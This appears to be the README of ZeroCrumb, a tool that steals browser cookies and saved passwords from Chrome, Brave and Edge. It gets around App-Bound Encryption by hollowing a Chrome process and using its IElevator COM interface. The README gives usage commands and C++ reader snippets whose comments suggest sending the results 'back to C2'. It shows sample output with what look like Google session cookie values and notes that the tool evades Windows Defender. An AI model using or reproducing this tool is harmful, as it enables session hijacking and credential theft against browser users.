 
# ZeroCrumb

Dumping App Bound Protected Credentials & Cookies Without Privileges.

## Explanation

ZeroCrumb bypasses the Chrome Elevation Service by impersonating a Chrome instance using [Transacted Hollowing](https://github.com/hasherezade/transacted_hollowing/), Effectively allowing us to use the IElevator COM interface to decrypt the App Bound Key.

Then, The key dumper running the in the hollowed chrome instance will send the decrypted key back to ZeroCrumb via a [Named Pipe](https://learn.microsoft.com/en-us/windows/win32/ipc/named-pipes).

After this, ZeroCrumb decrypts the cookies/passwords for the specified browser with the key fetched earlier.

## Merits With The Named Pipe Approach
Usage of named pipes in ZeroCrumb allows any program, As long as it can use the Windows API, To connect to the ZeroCrumb named pipe and read the App Bound Key from it. 

## Using ZeroCrumb As A Library
If you want to use ZeroCrumb as a library, You will need to compile a DLL that exports a function that does the hollowing of chrome with the key dumper. You might also need to embed the key dumper PE in the .rsrc section of the compiled DLL and later fetch it with the application resources Windows APIs.

## Usage
You can run this in any directory of your choice as long as the key dumper is in the same directory.
```
ZeroCrumb.exe <BROWSER_TYPE> <DUMP_TYPE>
```
```
Browser Types:
Chrome -> 0
Brave -> 1
Edge -> 2

Dump Types:
Cookies
Passwords
```

## Code Usage
ZeroCrumb provides an easy-to-use **CookieReader** & **PasswordReader** classes:
```cpp
    auto reader = new CookieReader(cookiesPath.c_str(), key);

    reader->initSqliteDb();
    reader->prepare(queries::cookies);
    reader->populateCookies();
    
    for (auto& cookie : reader->cookies) {
        string name = cookie->name;
        string site = cookie->site;
        string path = cookie->path;
        string cookieValue = cookie->cookie;
        // dump to file, send back to C2, etc...
    }
```

```cpp
    // keep in mind passwords aren't encrypted using the app bound key (yet)

    auto passwordsPath = browserConfig.passwordsPath;
    auto reader = new PasswordReader(passwordsPath.c_str(), key);

    reader->initSqliteDb();
    reader->prepare(queries::passwords);
    reader->populatePasswords();

    for (auto& password : reader->passwords) {

      auto name = password->name;
      auto site = password->site;
      auto passwordValue = password->password;
      // dump to file, send back to C2, etc...
}
```

## Depedencies
ZeroCrumb requires two [Vcpkg](https://vcpkg.io/) dependencies:
```
sqlite3
libsodium
```

## Output Example
```
$ ZeroCrumb.exe 0
[*] Reading From Pipe...
App Bound Key: 980f8ea8af3299d966a26242.....
============
Name: SIDCC
Site: .google.com
Path: /
Cookie: AKEyXzXxD19T0KLMkrMC-eUXkrnEFi92OXq6rj1vydvmdL73olBVQGRQ4cG_hK5sqPhO1rLd1CM
============
Name: __Secure-1PSIDCC
Site: .google.com
Path: /
Cookie: AKEyXzXXC8_MNDlVbAaw512aXu-QJkl0uKNW66rhjeufotzoJhT3OPN5TuCQnfKS8l57_WGfDw
============
Name: __Secure-3PSIDCC
Site: .google.com
Path: /
Cookie: AKEyXzVVySM4FWl9itegCN2evcSmBvGc7_iXHqkKZ6VYPKmR--_LsHx1Aflar6SU4nyJiDaFq028
============
Name: udid
Site: .veepn.com
Path: /
Cookie: 0dd5b8bb-8c5b-47f3-87f9-1db8fa7d885f
============
```

## Notes
You can modify ZeroCrumb to work with any type of credential other than cookies.

## Issues
- Debug build doesn't output the correct key

## Disclaimer
This is by no means the most stealthy implementation of this bypass, It can get detected by checking for specific strings, hooking APIs, etc.

By the time I'm testing this, It got past Windows Defender but I haven't checked other AVs.

I'll leave making the bypass stealthier as an exercise for the user if this bypass implementation gets signatured in the future.

## Credits
[Transacted Hollowing](https://github.com/hasherezade/transacted_hollowing/) by [hasherezade](https://github.com/hasherezade/).

[App Bound Encryption Decryption](https://github.com/xaitax/Chrome-App-Bound-Encryption-Decryption/) by [Xaitax](https://github.com/xaitax/).
